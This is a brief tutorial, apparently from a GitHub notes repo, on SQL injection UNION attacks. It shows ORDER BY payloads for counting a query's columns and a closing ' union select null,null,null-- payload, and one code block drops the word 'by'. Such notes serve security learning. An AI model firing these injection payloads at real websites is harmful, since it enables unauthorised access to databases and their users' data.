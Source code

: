 # Union Attack and determine the no.of columns

<b>UNION</b> keyword allow us to execute one or more additional <b>SELECT</b> query

example query

```
select a,b from user union select c,d from user1
```

this will return the value of user a and b from the user , so the c and d value will be returned by user1

<h3>Requriments for UNION based attack </h3>

 * Number of columns returned from the original query
 * Suitable data type to hold the results from the injected query
 
<b>ORDER BY</b> is used to determine number of columns by incrementing the specified column index until error occurs , most likely internal server error.

example query

```
' order by 1--
' order by 2--
' order by 3--
```

end goal : to determine number of columns returned by the query

first lets determine the number of columns it has

```
' order 1--
' order 2--
' order 3--
' order 4--  //internal server error
```

so here we have three colummns , now lets make our payload to attack it

payload

```
' union select null,null,null--
```
the reason of using NULL as it can be converted into any commonly used data type 

